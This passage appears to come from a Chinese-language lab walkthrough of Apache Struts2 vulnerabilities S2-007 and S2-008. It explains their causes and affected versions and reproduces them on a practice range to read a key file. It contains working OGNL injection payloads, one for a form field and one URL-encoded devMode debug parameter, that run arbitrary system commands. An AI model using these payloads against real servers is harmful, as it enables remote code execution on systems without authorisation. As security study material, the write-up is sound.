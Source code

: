 漏洞类型：远程代码执行漏洞
漏洞原因：当配置了验证规则 <ActionName>-validation.xml 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。**也就是一般出现在表单处**
影响版本: 2.0.0 - 2.2.3

靶场复现：

![][19]

在年龄中输入非数字类型点击登陆

![][20]

![][21]

年龄框的 value 变成 11，证明漏洞存在，执行任意代码的 EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls ../').getInputStream())) + '
```

执行命令后查看不清楚可以`ctrl+U`查看网页源码，最终命令为`cat ../../../key.txt`得到`key`：

![][22]

## S2-008

漏洞类型：远程代码执行漏洞
影响版本：2.1.0 - 2.3.1
漏洞原理：

> S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。例如在 devMode 模式下直接添加参数?debug=command&expression=<OGNL EXP>，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```
action?debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22[命令]%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29
```

修改其中的命令便可得到结果文件，用记事本打开即可查看。

靶场复现：

直接`cat ../../../key.txt`查看(注意每次执行命令后都需要清空缓存，建议每执行一条命令换一个隐私窗口)：

![][23]


[1]: https://github.com/HatBoy/Struts2-Scan
[2]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135731.png
[3]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135254.png
[4]: https://github.com/Lucifer1993/struts-scan
[5]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_142550.png
[6]: https://github.com/k8gege/K8tools/blob/master/K8_Struts2_EXP%20S2-045%20%26%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%2020170310.rar
[7]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151534.png
[8]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171648.png
[9]: http://sec.lz520520.cn:88/article/7.html
[10]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134126.png
[11]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134417.png
[12]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134606.png
[13]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134710.png
[14]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145451.png
[15]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_144112.png
[16]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145248.png
[17]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151159.png
[18]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171511.png
[19]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172415.png
[20]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172605.png
[21]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172625.png
[22]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_173038.png
[23]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_102028.png
[24]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_103249.png
[25]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_104530.png
[26]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105449.png
[27]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105634.png
[28]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_110202.png
[29]: https://github.com/vulhub/vulhub/tree/master/struts2
[30]: https://mp.weixin.qq.com/s/a06y_BANpGFcgS9hJAAtGw
[31]: https://mp.weixin.qq.com/s/99pPDZFA1fo-tC8U1WD7qA
[32]: https://mp.weixin.qq.com/s/6Hx1Ngb9UMtJlRMWb6s2fQ